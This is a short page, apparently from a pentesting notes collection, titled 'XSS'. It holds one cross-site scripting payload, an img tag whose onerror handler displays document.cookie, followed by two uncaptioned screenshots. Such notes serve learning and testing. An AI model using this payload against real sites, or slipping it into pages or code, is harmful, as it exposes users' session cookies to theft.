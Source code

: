 # XSS

```bash
#"><img src=/ onerror=alert(document.cookie)>
```

<figure><img src="../../../../../.gitbook/assets/Untitled (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/Untitled 1.png" alt=""><figcaption></figcaption></figure>

